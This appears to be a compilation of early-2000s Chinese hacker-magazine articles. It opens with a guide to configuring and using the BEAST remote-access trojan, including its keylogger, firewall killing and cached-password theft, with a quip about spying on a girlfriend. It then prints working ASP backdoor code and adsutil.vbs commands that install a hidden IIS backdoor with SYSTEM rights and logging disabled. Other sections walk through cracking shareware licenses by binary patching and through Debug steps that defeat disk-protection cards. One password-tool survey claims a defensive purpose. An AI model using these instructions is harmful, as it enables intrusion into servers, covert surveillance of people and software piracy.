Basic Settings：顾名思义，在这里我们可对服务端进行一些基本设置，如服务端的名字、监听的端口和密码等。另外，我们还可选择木马是安装到 Windows 目录还是 System 目录下，并且可设置木马运行后其进程插入到哪个程序中，有 Internet Explorer（IE 浏览器）、Explorer（资源管理器）和不插入三个选择。

Notifications：这是服务端主机上线通知，该功能专门给 IP 是动态的服务端主机使用。这样，只要中了木马的主机一上线，就可通过早已设好的方式得到通知，获取它的 IP 地址。这里可供选择的方式有 ICQ 通知、E-Mail 通知和 CGI 通知。

AV-FW Killing：这是木马的自我保护部分设置。通过设置，不仅可让各种防火墙一启动就自动关闭，还可设置检测时间间隔，通过特定时间对防火墙进行关闭。


图 3

Miscellaneous：这里我们可对服务端进行一些综合设置（图4）。例如选择 “Melt Server On Install” 后，服务端一启动，就会自动删除自身的文件。

而要对服务端主机进行键盘输入记录的话，就要选择上 “Enable Keylogger”。另外，我们在这里可设置让中了木马的服务端主机在上线的情况下，才打开监听端口，这样木马就更具隐蔽性了。


图 4

至于 “StartUp” 和 “Exe Icon”，分别是设置木马的启动方式和服务端程序图标的。设置好之后，我们可以在 “Setting” 中保存好设置，下次需要再配置服务端时，加载保存好的设置文件即可。所有设置完后，我们只需点击窗口最下方的 “Save Server”，客户端程序就会自动在软件目录下生成一个 “Server.exe” 文件。

> 注意：在点击 “Save Server” 按钮前，如果你选择了压缩相关选项，生成 Server.exe 时会进行压缩处理；也可不选择，待服务端生成后再用其他软件压缩。

## 三、实例说明

接下来给大家说说客户端的使用。运行服务端后，我们在图1的界面中输入好 IP 地址、监听端口和连接密码后，点击 “Go BEAST!” 按钮，便可与服务端进行连接了。

首先给大家介绍 BEAST 的管理功能。选择 “Files” 按钮，可以进入图5的文件管理器界面；选择 “Registry” 按钮，则会进入图6所示的注册表管理器界面。

同理，“Appz” 按钮可显示当前应用程序窗口，“Processes” 按钮可显示所有进程并结束不需要的进程；“Screen” 更厉害，不仅可实时把屏幕图像传送过来，还可以进行实时控制。


图 5


图 6


图 7

接着我们选择主窗口的 “Windows” 选项（图7），点击 “Hide All” 按钮后，可隐藏掉服务端机器的所有窗口。使用 “Kill All” 则是关闭掉它们，而不是隐藏。至于其它按钮，则是注销、重启和关闭计算机等。对方（特别是 MM）不知道的话，还以为见鬼了呢，嘿嘿！

说完了 BEAST 优秀的管理功能，下面要说说它的其它功能了。在 “Misc 1” 下面，如果我们在设置服务端程序时选上 “Enable Keylogger” 功能，那么点击 “Get Log” 就可获得服务端所有键盘输入过的内容了，用这个功能看看你的 MM 有没有趁你不在的时候在网上“勾三搭四”，也是不错的哦 ^-^

而 BEAST 最为出色的就是获取缓存密码这个功能。点击 “Password” 按钮后，所有在缓存中的密码都暴露无遗了（图8），还可点击 “Save” 按钮把它们保存下来呢，真是绝啊！


另外，当我们点击 “Message” 按钮后，还可发送信息给服务端。最后说一下 “Misc 2” 选项内容，里面都是关于 BEAST 本身的一些设置，例如关闭服务端、卸载服务端等。还有像水滴那样，对指定 IP 段进行扫描，找出中了 BEAST 木马的计算机（图9），真是方便之极！


## 四、后记

通过对 BEAST 功能描述，可以看出国外较先进的技术。而我们要学习黑客技术，首先要做的就是学好英文，多看国外的好文章（大家不会说我崇洋吧！）。实在有单词不会的话，像我那样，开个金山词霸吧，屏幕取词，很方便的！

好了，“废话”（肺腑之言哪~！）说到这里，希望能给各位小鸟们有点启发，来个不鸣则已，一鸣惊人！


传在肉鸡上的 ASP 网页后门，即使改变了原有代码变量，躲过了杀毒软件，细心的管理员也会在他网站 web 目录下发现多出的一个 ASP 文件。针对这个问题，我想了两个办法：一种是 ASP Injection（好像这个词真流行呀）；另一种是在 IIS 管理器中用 asp.dll 来解析任意后缀名。这两个方法并没有多少技术性可言，却是一个很好的思路。如果沿着这一思路进行更深层的思考，就可以配置一个奇妙的 IIS 后门了。详述如下：

## 一、ASP 后门放置方法之一（ASP Injection）

我们先看图1，这是我架在本机的一个动网文章管理的登录页面，和平常没什么两样，原有的功能都存在。


再来看图2，我们和图1比较一下。图1的 URL 是 `http://192.168.1.3/asp/wz/admin.asp`，图2是 `http://192.168.1.3/asp/wz/admin.asp?id=1`（在 admin.asp 后边加了一个参数“?id=1”，就多出一个东西来了）。在图2下面的两个框里，你可以在前边的输入框输入文件名，后边的文本框可复制任意代码，点“生成”按钮可在服务器上生成 cgi/asp/php/aspx 等网页后门或任意文本文件。这是怎么做到的呢？只要你将这段代码根据提示修改一下，插入某个 ASP 网页代码最下端即可。

```asp
<%
on error resume next
id=request("id")
if request("id")=1 then
  testfile=Request.form("name")
  msg=Request.form("message")
  set fs=server.CreateObject("scripting.filesystemobject")
  set thisfile=fs.OpenTextFile(testfile,8,True,0)
  thisfile.WriteLine(""&msg&"")
  thisfile.close
  set fs=nothing
%>
<form method="POST" ACTION="你要插入的asp文件名?id=1">
<input type="text" size="20" name="Name" value="<%=server.mappath("xp.asp")%>">
<textarea name="Message" class=input>???</textarea>
<input type="submit" name="Send" value="生成" class=input>
</form>
<% end if %>
```

值得注意的是，这段代码要求服务器支持 FSO，并且它不是在所有的 ASP 文件里都生效。像被插入的 ASP 文件有包含代码，即有 `<!--#include file="conn.asp"-->` 之类的代码，这段代码就不生效了，但不会影响源文件的使用。

## 二、ASP 后门放置方法之二（在 IIS 管理器中用 asp.dll 来解析任意后缀名）

如果你会写 ASP，你还可将一些 ASP 后门直接写在肉鸡原有的 ASP 文件里。

我们这样来做，依次打开电脑的“控制面板→管理工具→Internet 服务管理器→web 站点→右键属性→主目录→配置→添加”，把一个后缀映射到 `asp.dll` 来解析。

这样做完后，把常用的 `cmd.asp` 改名为自定义后缀并运行，仍然可以作为网页后门使用。后缀名越隐蔽越不容易被发现。


如果使用特殊的 DLL 来解析自定义后缀，可以根据自己的需求写一个 DLL 程序。文中提到可使用 `idq.dll` 做映射并实现提权相关操作。


这个 `xxx.lcx` 可随便改名，主机不存在该文件也可以。可通过 `nc` 登录主机，键入命令后获得执行结果。

```bash
nc targetip 80
POST /a08/anything.lcx
```

登录后可得到 `system` 权限（文中示例为 Win2k+sp3 环境）。


文中还引用了通过 URL 参数执行命令的方式，如 `http://ip/*.<后缀>?shell=命令`，并展示了在目标上的解析效果。


看到这里，作者说明该 IIS 后门在无 3389 终端时也可安装，借助 `inetpub/adminscripts` 下的脚本（如 `adsutil.vbs`）可在命令行完成配置。

- 1. 将 `idq.dll` 复制到系统盘 `system32` 目录下，并重命名为 `iisapi.dll`。

```bat
copy idq.dll %systemroot%\system32\iisapi.dll
```

- 2. 得到虚拟站点的情况。

```bat
cscript adsutil.vbs enum /p w3svc
```

- 3. 得到 IIS 所有有特权的 DLL。

```bat
cscript adsutil.vbs get /w3svc/1/Root/InProcessIsapiApps
```

```text
...\idq.dll
...\httpext.dll
...\httpodbc.dll
...\ssinc.dll
...\msw3prt.dll
```

将第 3 步得到的 DLL 与第 1 步复制的 DLL 一并设置到 `InProcessIsapiApps` 组中，以保持原有特权项不丢失。

```bat
cscript adsutil.vbs set /W3SVC/1/Root/InProcessIsapiApps "...,C:\WINNT\System32\idq.dll,...,C:\WINNT\System32\iisapi.dll"
```

- 5. 设置映射。

```bat
cscript adsutil.vbs set /W3SVC/.../ScriptMaps ".asp,C:\WINNT\System32\inetsrv\asp.dll,1,GET,HEAD,POST,TRACE" ".cer,..." ".asa,..."
```

## 木马记

```text
TRACE"
".idq,C:\\WINNT\\System32\\inetsrv\\httpext.dll,1,OPTIONS,GET,HEAD,POST,PUT,DELETE,TRACE"
".shtm,C:\\WINNT\\System32\\inetsrv\\ssinc.dll,1,GET,POST"
".shtml,C:\\WINNT\\System32\\inetsrv\\ssinc.dll,1,GET,POST"
".stm,C:\\WINNT\\System32\\inetsrv\\ssinc.dll,1,GET,POST"
".lcx,C:\\winnt\\system32\\iisapi.dll,3,GET,HEAD,POST"
```

这些是默认安装下，在原有 IIS 管理器中的映射加了一个 .lcx 映射，用我们 copy 过来的 iisapi.dll 来解析。注意最后一行加的是 .lcx 的映射，你可加个别的后缀名映射。

- 6. 增加一个虚拟目录，设置虚拟目录的各项属性

```text
cscript adsutil.vbs create /w3svc/2/root/root (目录名叫 root)
cscript adsutil.vbs set w3svc/2/root/root/KeyType "IIsWebVirtualDir"
cscript adsutil.vbs set w3svc/2/root/root/AppRoot "/LM/W3SVC/2/Root/root"
cscript adsutil.vbs set w3svc/2/root/root/AppFriendlyName "root"
cscript adsutil.vbs set w3svc/2/root/root/AppIsolated 2
cscript adsutil.vbs set w3svc/2/root/root/AccessRead True
cscript adsutil.vbs set w3svc/2/root/root/AccessExecute True
cscript adsutil.vbs set w3svc/2/root/root/AccessScript True
```

- 7. 增加虚拟目录 root 的映射 .lcx，用 iisapi.dll 来解析

```text
cscript adsutil.vbs set w3svc/2/root/root/ScriptMaps ".lcx,C:\\winnt\\system32\\iisapi.dll,1"
```

- 8. 不进行日志记录

```text
adsutil.vbs set /w3svc/1/root/root/dontlog true
```

需要说明的是，adsutil.vbs 的命令虽然我研究了好长时间才搞清楚，但我用上述命令在三台肉鸡和我本机做试验时只成功了两台。好像只有在 IIS 原有默认配置没有被修改的情况下才可成功。为什么会这样呢？还是借杂志的“补丁铺”来期待研究过这个脚本和 IIS isapi 的高手来解答吧！但在 IIS 图形管理器中这个后门可是百分百成功的。

应当说，这三种方法置的后门都是目前最好的后门了。为便于大家学习，笔者将 idq.dll、czy.dll、adsutil.vbs 打包放在光盘里了（iisback.rar）。

## 神秘园

笔者最近搞一些软件的汉化工作，并找到一个好的汉化工具。它就是狂风汉化百宝箱XP。狂风汉化百宝箱XP的前身是“枫叶字符替换器”，用于汉化程序非标准资源。本版本增加了自动汉化、汉化初哥等功能，并且改进了查找速度和垃圾字串屏蔽算法，使之能更加有效地为汉化者服务。界面采用XP风格，具有汉化“一条龙”服务，包括搜索、替换字串、重点查找、自动汉化、汉化上传、过滤字典编辑等实用功能，绝对是汉化者的得力助手。但是未注册版有限制，就是未注册版不能使用自动汉化功能（其实注册费不是很贵），如图1所示。


王智雄


图1

下面我通过本文把有关破解方法技巧和大家交流（大家可以在 http://js0051.net/23 上给我留言），但不提倡大家去破解软件，那是非法的哦！

## 一、破解准备

安装好狂风汉化百宝箱XP，先用 language2k 软件查看狂风汉化百宝箱XP.exe 文件，如图2所示。


图2

它是使用 ASPack2.* 压缩文件压缩过的，所以用 unaspack 脱壳。

会出现失败的提示，如图3所示。


图3

所以我们选用 AspackDie!1.4 软件来脱壳，如图4所示。


图4

原文件为303KB，解压后448KB，在原文件所在的目录下生成 Unpacked.exe 文件，就是脱壳后的文件，如图5所示。


图5

下面简单介绍一下所用到的工具软件：

- language2k：文件类型检测工具，可用来检测出文件的最终编译程序或文件加壳、加密类型。此版本共支持45种编译器和42种加壳、加密类型。
- AspackDie1.4：AsPack 的脱壳利器，支持从 Aspack 2000 到 AsPack 2.12b 的 AsPack 版本。
- kwdsm V10 增强版：这是高手 Killer 修改的反编译工具，功能强大（下载地址：http://nfans.net/killer/），静态分析中文软件的利器。
- Winhex 10.0 注册版本：一款优秀的十六进制编辑工具，其内存编辑功能值得称道（下载地址：http://www.sdgmxing.com/tools/Editors.htm）。
- GetVBRes：第一个直接针对汉化的工具软件，GetVBRes 弥补了 ResScope 对于非标准格式资源的处理不足。但我使用它来找字符串的偏移地址，也不错。

## 二、破解过程

按照软件的一般破解方法先对软件进行跟踪，在注册时随便输入注册码，点击确定出现错误提示：“注册失败！请检查是否区分了大小写？”这一点是软件加密所致，如图6所示。


图6

现在打开 kwasmV10 增强版对文件 Unpacked.exe 进行反汇编。在“参考”菜单→“字符串数据参考”中查找这个字符串，不会吧，竟然没有“注册失败！请检查是否区分了大小写？”这个字符串。可能是这个版本提取不了吧，但是在程序的开头发现了很多函数，明显是 VB 程序，可是用 language2k 查看的编程语言是 VC++ 啊，这是因为该软件中包含了 VB 控件，可能就是产生注册码的控件。这时，我们找来的 getvbres 软件就可以提取 VB 程序的资源，如图7所示。


图7

好了，在图7中找到字符串的偏移地址 56580 后，再打开 kwasm 查找这个偏移地址（可以直接点“查找”菜单→“查找字符串”→填入“56580”），然后查找两次来到这里，如图8所示：

```text
* Referenced by a (U)nconditional or (C)onditional Jump at Address:
  [00462C69(C)]  -> 是从这儿跳转过来的

* Reference To: MSVBVM60.__vbaVarDup, Ord:0000h
  -> 明显是 VB 程序

00462D94 8B35C8114000          mov esi, dword ptr [004011C8]
00462D9A B90A000000            mov ecx, 0000000A
00462D9F B804000280            mov eax, 80020004
00462DA4 898D4CFEFFFF          mov dword ptr [ebp+FFFFFE4C], ecx
00462DAA 898D5CFEFFFF          mov dword ptr [ebp+FFFFFE5C], ecx
00462DB0 BF08000000            mov edi, 00000008
00462DB5 8D956CFDFFFF          lea edx, dword ptr [ebp+FFFFFD6C]
00462DBB 8D8D6CFEFFFF          lea ecx, dword ptr [ebp+FFFFFE6C]
00462DC1 898554FEFFFF          mov dword ptr [ebp+FFFFFE54], eax
00462DC7 898564FEFFFF          mov dword ptr [ebp+FFFFFE64], eax
00462DCD C78574FDFFFFA8654500  mov dword ptr [ebp+FFFFFD74], 004565A8
00462DD7 898D6CFDFFFF          mov dword ptr [ebp+FFFFFD6C], edi
00462DDD FFD6                  call esi
00462DDF C78584FDFFFF80654500  mov dword ptr [ebp+FFFFFD84], 00456580

-> 这就是出来错误提示字符串的地方了
```


图8

往上找，看有没有跳转语句，找到如下代码：

```text
* Referenced by a (U)nconditional or (C)onditional Jump at Address:
  [00462C69(C)]  -> 是从这儿跳转过来的

Reference To: MSVBVM60.__vbaVarDup, Ord: 0000h

00462D94 8B35C8114000        mov esi, dword ptr [004011C8]
00462D9A B90A000000          mov ecx, 0000000A
00462D9F B804000280          mov eax, 80020004
```

找到了，是从 00462C69(C) 跳转过来的，且是有条件的（后面括号中的“C”是表示有条件跳转），接着直接找到 00462C69 地方的“跳转”菜单→“跳转到代码位置”→填入“00462C69”来到这儿：

```text
Reference To: MSVBVM60.__vbaFreeObj, Ord: 0000h

00462C60 FF1510124000        call dword ptr [00401210]
00462C66 663BFB              cmp di, bx
00462C69 0F8425010000        je 00462D94
...
（此处修改为 JNE 00462D94）
```

找到要修改的代码位置后，在 Kwasm 查看此代码的偏移地址为 62C69，如图9所示。


图9

接着就是修改代码了，用 Winhex 打开 Unpacked.exe 文件，找到要修改代码的偏移地址 62C69，直接把 0F8425010000 改为 0F8525010000（JE 的机器码为 84 和 0F84，JNE 的机器码为 85 和 0F85），存盘退出，如图10所示。


图10

好了，运行 Unpacked.exe 文件，随便输入注册码点击注册，是不是出现注册成功的提示了，如图11所示，点击确定。退出后重新运行 Unpacked.exe，再打开时，自动汉化功能就注册成功了，如图12所示。


图11


图12

按理说破解到这里就算是完成了，但是我想试试写出注册机。当我把 Unpacked.exe 文件复制到别的目录下并运行时，提示找不到配置文件，使用默认的配置后在当前目录下生成 set.ini 文件，打开看看，内容如下：

```text
搜索出的瘦短字符串数量 = 3
使用间隔字符串与字串 = 1（TRUE）
特殊字符串参数 = 1
是否忽略大小写 = 0（FALSE）
软件使用用户名 = （用户名为空）
软件注册码 = （里面有注册码）
```

我打开原目录下的 set.ini 文件，内容如下：

```text
搜索出的瘦短字符串数量 = 3
使用间隔字符串与字串 = 1（TRUE）
特殊字符串参数 = 1
是否忽略大小写 = 0（FALSE）
软件使用用户名 =
软件注册码 = OLNLJMI（即原注册值）
```

我就试着把字符串 OLNLJMI 填入注册码中（注意打开狂风汉化百宝箱XP.exe 原来没改的文件），竟然也出现如图11的注册成功提示，哈哈，这就是真正的注册码了。所以我称其为“真注册机”，只要把改完的 Unpacked.exe 文件运行后暴力得到注册码，再用真正的注册码注册即可。

## 密码安全吗？

钟毅榕

随着计算机的普及，越来越多人使用电脑，计算机的个人隐私问题也随之越来越受到人们重视。但很多人的安全意识还不是很强。例如，不少人还在用自己名字的拼音加生日做密码。这是非常危险的。现在的密码破解工具越来越傻瓜化，如果你的密码强度不够的话，即使是一个电脑的初学者，也可以轻易地获得你的密码。不信？看了下面的内容，你就知道我所言非虚了。

## 个人篇

**Foxmail：** Foxmail 这个软件的功能越来越强大，但它的安全性却远远比不上它的功能，实在让人不敢恭维。“Foxmail 杀手”是一个专门破解 Foxmail 密码的软件，连 Foxmail 4.2 也可以破解。该软件利用了 Foxmail 的一个 Bug，只要打开这个软件和 Foxmail，然后把软件中那个 Foxmail 的图标拖到 Foxmail 中，使用者根本就不用输入密码，就可以查看 Foxmail 所有账户的邮件了，如图1所示。

**WinRAR：** WinRAR 是一个非常优秀的压缩/解压缩软件。如今 WinRAR 用户的数据可以说是与 WinZip 不相上下。使用者经常也使用 WinRAR 的加密功能来传递一些重要的隐私文件，如果你的文件也是用 RAR 格式传输，而你设置的密码强度不够大的话，那你的隐私文件就有危险了！“RAR Password Cracker”就是 RAR 文件的克星，其破解 RAR 文件密码的速度非常快，而且软件拥有使用向导，只需按向导步骤去做，非常容易上手。只要破解者的电脑速度足够快的话，破解一个强度不是很大的密码非常容易，其界面如图2所示。

上网账户密码：拨号上网的朋友可能经常都会贪图方便，把拨号链接的那个“保存密码”不经意地选上，这就让一些别有用心的人有机可乘了。“Asterisk Password Recovery XP”就是一个专门查看星号密码的软件。该软件不仅可以看软件中的星号密码，甚至连网页中的星号密码也可以显示。你看，我的账户使用这个软件，不用一秒钟就给显示出来了，任凭密码多复杂也没用，如图3所示。

**Email 密码：** 相信只要是上网的朋友，没有几个不会使用 Email 吧？！破解 Email 密码的软件很多，其中最著名的就是小榕的流光和刺客。功能极为强大，但又非常专业，初学者不太容易掌握。而这里我们要说的是“黑雨”——POP3 邮箱密码探测器。这个软件界面很简单，如图4所示。破解的时候你可以选择使用字典，也可以指定一些字符，然后由这些字符随机组合起来作为密码。更厉害的是，这个软件在破解方法的选择上，竟然有四种之多，可谓是“任君选择”，让破解者可以根据要破解密码的不同强度而选择不同的破解方法，从而加快密码破解的速度。


QQ 号码：相信在中国，即使你不使用 QQ，也不会没听过吧？！腾讯公司可谓遍及全国各地，QQ 的密码问题也一直困扰着腾讯和 QQ 爱好者们。偷偷摸摸的 QQ 木马不说，日渐地破解 QQ 号码的软件到处都有，“天空梦 QQ 密码探察者”就是一个 QQ 的扫号软件。只要你选择一个好的密码字典，在软件中设置好“起始 QQ 号”和“终止 QQ 号”，然后耐心等待。好运的话，一个个 QQ 密码就显示在你的眼前了，这个软件甚至支持使用代理，如图5所示。

## 网吧篇

还原精灵：还原精灵的确是一个网吧里面必不可少的好软件。但关于还原精灵密码的一个 Bug 相信不少人都知道，其实还有更简单的破解方法。“还原精灵5.0密码读取器”就是一个傻瓜化的还原精灵密码破解程序。

点击软件中的“读取”按钮，还原精灵的密码便暴露在众目睽睽之下了，如图6所示。

美萍和万象幻境：美萍和万象幻境是网吧必备的记账和管理软件。许多在网吧上网的人总是想方设法地破解它们，解除软件的限制，甚至以达到免费上网的目的。“美萍计费幽灵”和“万象计费幽灵”就是专门用于破解美萍和万象的软件，并且可以查杀所有的版本！使用者只需用会员卡登录网吧的计算机，然后运行软件，点击界面中的“杀”按钮，过三十秒以后，美萍和万象幻境就会被终止运行，各位网吧老板可要小心了！其界面如图7所示。


硬盘保护卡：硬盘保护卡可以说是硬盘保护的终极武器，可是照样还是可以很轻易地被破解。破解方法有两种：

- 1. **Debug法**：开机过程按住 F8 键，进入纯 DOS 环境，键入如下命令：

```text
c:\debug
-a100
-xor ax,ax
-int 13
-int3
```

然后输入 t 回车，不断地重复，直到显示的地址如：F000:XXXX。记下这一地址，按 q 回车退出。在 (0:13H*4)=0:4cH 处填入这个地址。例如：我得到的地址是 F000:9A95，再次运行 debug，键入：

```text
e 0:4c 95 9A 00 F0
```

- 2. 使用软件：现在有一个叫做“硬盘保护卡破解”的软件，一运行就可以直接读取或者更改硬盘保护卡的密码，非常恐怖。

Microsoft Access 2000：相信不少人用微软的 Access 来管理数据吧，如果别人可以使用你的电脑的话，那么即使你为 Access 数据库设置多长的密码，也是没有用的。因为“Access2000密码查看器”可以很轻易地读取你 Access2000 的密码，其使用也是很简单地点击一下“查看密码”便可。如果狠一点的，你甚至可以更改掉你的数据库密码，到时候真是欲哭无泪了，如图8所示。

好了，有关密码破解的工具我就说到这里。我写这篇文章不是要教大家怎样去破解别人的密码，将心比心，如果你是那个被破解掉密码的人，你又会怎样呢？我只是希望大家能意识到设置高强度密码对于保护我们隐私的重要性，提高自己的安全意识，安心地在电脑知识的海洋中遨游。


## 神秘园

### 用 TRW2000 解读 WinZip 8.1 的注册码程序

Tcry82

在 2003 年第一期的《黑客 X 档案》中，看了杨军兄的一篇《隐藏在 WinZip 中的神奇万能注册码吗》后，大有启发，后来在自己的机器上试验过，的确不错。由于本人不喜欢在注册软件的时候输入中文名字，所以，就只能换来“硬”的了，呵呵……

我们先来看看 WinZip 8.0 版本吧……单击 Help 菜单下的 “Enter Registration Code...”，在 “Name:” 和 “Registration #:” 中输入测试值，打开 TRW2000，然后单击隐藏，如下图所示。

```asm
016f:00407fa9 pop ecx
016f:00407faa jz 00408005
016f:00407fac cmp byte [0048cda4],00
016f:00407fb3 jz 00408005
016f:00407fb5 call 004079d5
016f:00407fba test eax,eax
016f:00407fbc jz 00408005
016f:00407fbe push edi
...
```

看到 `016f:00407fba test eax,eax` 这句了吗？上面的那个 Call 就是比较注册码核心 Call。我们把光标停留在 `016f:00407fb5 call 004079d5` 这句上面，按 F8 进入比较核心 Call，可以看到如下的代码：

```asm
016f:004079d5 push ebp
016f:004079d6 mov ebp,esp
016f:004079d8 sub esp,0208
```

按 F10 单步来到如下代码位置：

```asm
016f:00407a9e mov esi,0048cda4
016f:00407aa3 lea eax,[ebp+fffffec0]
016f:00407aa9 push esi
016f:00407aaa push eax
```


先让它“躲”在一边，按 Ctrl+M 呼出 TRW2000 窗口，输入命令：`bpx hmemcpy` 回车，再输入：`g` 回车。在 WinZip 8.0 的注册对话框中单击 “OK”，会被 TRW2000 所拦截。然后输入命令：`bd *`（关闭刚刚断点），再输入 `pmodule` 回车（来到 WinZip 的领空），可以看到以下一段代码：

```asm
016f:00407f73 push edi
016f:00407f74 call 0043f89a
016f:00407f79 push edi
016f:00407f7a call 0043f8c3
016f:00407f7f pop ecx
016f:00407f80 mov esi,0048cda4
016f:00407f85 pop ecx
016f:00407f86 push byte 40
016f:00407f88 push esi
016f:00407f89 push dword 0c81
...
```

按 F10 单步执行来到如下代码处：

```asm
016f:00407f9b push esi
016f:00407f9c call 0043f8c3
016f:00407fa1 cmp byte [0048cc78],00
016f:00407fa8 pop ecx
```

我们可以看到 `016f:00407aa3 lea eax,[ebp+fffffec0]` 这句，把正确的注册码放入 EAX。然后在 TRW2000 中下命令：`d eax`，可以在数据窗口中看到正确注册码（4ec9044e）。也可以在执行 `push esi` 后用 `d esi` 看到输入的错误注册码（12345678）。

破解了 WinZip 8.0 之后，我就把它给卸载了，又找了个未注册的 WinZip 8.1 重新安装。按上面的方法和步骤，输入错误的 “Name:” 和错误的 “Registration #:” 呼出 TRW2000，发现 WinZip 8.1 和 WinZip 8.0 略有区别，但它们计算注册码的方法是一样的。也就是说 WinZip 8.0 的注册码和 WinZip 8.1 的注册码是一样的，我用 “Name:tcryg” 和 “Registration #:4ec9044e” 在这两个版本中都能够注册成功。

在 TRW2000 当中下了断点之后，如果被成功拦截的话，一定不要忘记下 `bd *` 这个命令来关闭中断，否则后面还会再次被拦截。破解过程中我还试过中文名，也在 TRW2000 中看到了万能码。


### Debug 破解硬盘保护卡实例

我们单位机房的操作系统为 Windows 98，安装有华超硬盘保护卡。保护卡每次在系统初始化时自动开始工作，在 Windows 启动之前对硬盘进行还原操作。如果从软盘启动时系统就被挂起。在 Windows 的一切操作中，凡是与存盘操作相关的操作在系统下次启动时都自动还原。由于它的存在，使我们无法安装软件，想试试新软件也不行！它还对 CMOS 内容进行了保护，防止从光盘启动，可以说对我们进行了全面的封杀。后来在网上看见了在 DOS 实模式下用 Debug 破解硬盘保护卡的方法，经过一番搏斗和总结经验，于是有了我们现在所说的硬盘保护卡的破解实例。

首先要告诉大家的是我们要使用 Debug 命令来破解硬盘保护卡，不要头痛，即使你不会汇编也没有关系，只要你能坚持看完本文，然后只需简单的几步就可以解决这个令你头痛不已的问题，非常容易。

在 DOS 实模式下运行 Debug，键入 `a 100`，然后再键入 `xor ax,ax`，接下来再输入 `int13`，最后输入 `int3`，按回车键，然后键入 T 键开始单步跟踪，如下图所示。


按回车键，接着不断重复按 T 键，直到显示的段地址和偏移量形如 `F000:XXXX`，它后面一条指令为 `mov dl,80`，到这儿就看到希望了。这里假设你看到的地址是 `F000:9867`，记下这一地址（如果你看到的和我的不一样这很正常，但是段地址肯定是一样的），按 Q 键，回车退出 Debug。

> **注意**：在这里解释一下为什么看到显示的地址形如 `F000:XXXX` 就说明干掉了吗？在我简短且不断地跟踪的过程中，你将会发现原来的 int13 中断会由内存中的另一段代码截取，并对其进行判断，然后再转向真正的 int13 调用。这里很关键，因为 int13 为 BIOS 功能调用，是固化在计算机里面的程序，所以它的起始段地址一定是 F000。由 MS-DOS 启动并进入正常运行后，sys 会重新修改 int13 的地址，使其段地址指向 0070 这块地址，所以在你跟踪过程中只可能遇到两种段地址 0070 和 F000。这样你重复跟踪到了段地址是 F000 的代码区，就肯定是进了真正的 int13 的代码区了。

在此再简单地说说 int13 调用。它是 BIOS 功能调用，DOS 中所有关于写磁盘的操作最终都会调到 int13 中断。而病毒之类的东西或者保护卡也常常截取这个中断。既然“华超”不要我们写磁盘，我们就把 int13 中断改回来就是了。

基于上面的想法，换算中断向量地址：`13h*4=4Ch`。用 Debug 的 e 命令修改 `0000:004C` 开始的 4 个字节，分别为偏移位置和段地址，即输入：`e 0000:004C 67 98 00 F0`。代码要反过来写，所以看起来就是这个样子。“67 98”其实就是偏移地址 9867，“00 F0”就是段地址 F000 倒过来写的形式，也就是我们上面记下的地址。到此已基本搞定，可以按 Q 键退出 Debug，成功后机器会发出一点声音，输入 Win，回车，就进入 Windows 98 了，现在可以随心所欲地安装软件，再也没有任何限制了！

总结一下，关键是找到自己的 int13 在 BIOS 区的地址，找到它就接近成功了。另外，如果我们能先于华超取得对 int13 中断向量的使用权，就可以让它的保护形同虚设。也就是说谁先占有硬盘的主引导扇区（MBR），那么谁对硬盘就有最大的管理权利。依据这个原理，用 `fdisk /mbr` 命令重写主引导扇区，然后快点用光盘启动你的计算机就可以了。

> **注意**：这里的“/mbr”是 fdisk 的隐藏参数，这个参数可以重新写主引导扇区而不改变分区表结构。

本文是以“华超”硬盘保护卡为例来说的，其实，就算你遇到的硬件保护卡不是“华超”，也可以试着用这个方法去破解。本文在写作时参阅过网上高手的文章，在此一并致谢！


突然大眼睛 II，这个版本变化比较大，据说能浏览 60 多种图片格式，浏览速度、效果以及人性化操作方面有了不少的进步，而且内置了常用的图片操作功能。在 ACD 系列越来越臃肿的今天，图形浏览的精品已经不多了，蒙太公司有如此敏锐的市场嗅觉的确难得。唉，有没有定啊？:)

该软件采用序列号限制，每次启动浏览图片的时候，每浏览一张图片都会出现注册对话框，非常不爽，于是尝试破解它。

- 1. 首先用 TRW 加载 BigEye.exe，在出现的对话框中输入名字 killer，注册码：`hhhh-aaaa-cccc-kkkk` 模式。
- 2. `Ctrl+N` 后下 `bpx hmemcpy`。
- 3. 运行后中断，回到领空发现是 authreg.exe 这东东来完成注册。
- 4. 再次用 TRW 直接载入 authreg.exe，发现它还把注册码写入注册表等地方，晕哦。
- 5. 决定爆破，既然它每次看图片都出现注册框，就是说主文件 bigeye.exe 在检查没有注册后，要用 winexec 之类的调用来装载 authreg.exe。
- 6. 于是删除 authreg.exe 后再次执行 bigeye.exe，根据出错提示顺利找到调用处：

```asm
Reference To: KERNEL32.lstrcatA, Ord:032Fh

:0041CA0A  FF15D0C14500      Call dword ptr [0045C1D0]
:0041CA10  8D8D10FCFFFF      lea ecx, dword ptr [ebp+FFFFFC10]
:0041CA16  51                push ecx
:0041CA17  E8B5EAFFFF        call 0041B4D1
:0041CA1C  83C404            add esp, 00000004
:0041CA1F  898538FFFFFF      mov dword ptr [ebp+FFFFFF38], eax
:0041CA25  83BD38FFFFFF00    cmp dword ptr [ebp+FFFFFF38], 00000000
:0041CA2C  755A              jne 0041CA88

注：这里，如果不跳成报错，改成 jmps 0041CA88.

:0041CA2E  6800010000        push 00000100
:0041CA33  8D9538FFFFFF      lea edx, dword ptr [ebp+FFFFFF38]
:0041CA39  52                push edx

* Possible Reference to String Resource ID=40076: "No Component"
```

整个世界清静了……  
嘿嘿~~ 想必那个解霸 3000 的共享版也可以如法炮制吧 :)

国产精品，强力支持，请勿将破解用于商业目的。

## 软件加密和硬解密

何巍巍


豪杰大眼睛Ⅱ注册窗口

软件保护不在于软件的加密算法是否可逆，我们往往偏重于某一方面，同时忽略了其他薄弱环节的检查。

加密，在计算机领域中早已不是一个陌生的词汇。计算机软件是一种特殊的商品，极易复制，所以加密就成为了保护软件的一种必要手段。现在市场上流行的软件多数都采取了一定的加密方法，其目的就在于保护软件开发者的利益，防止软件被盗版。

钥匙盘就是其中一种，它是通过 BIOS 的 INT13 中断对软盘格式化一些特殊的磁道，有的还在特殊磁道里写入一定信息，软件在运行时要校验这些信息。这种软盘就好像一把钥匙一样，所以被人习惯称为钥匙盘。它也是目前流行的一种加密工具。

采用此种加密方式的软件工具很多，如 Softlock、Bitlok、Keymaker、Lock95、Lockstar 等。软件商只需一次性投资购买一套加密工具，就可自己制作多张钥匙盘，在软件中读取钥匙盘上的特殊磁道来检查钥匙盘是否存在。此种方式加密简便、成本低、用户使用方便。使用此种加密方式的软件也比较多，如 KILL、KV3000、瑞星杀毒软件等。

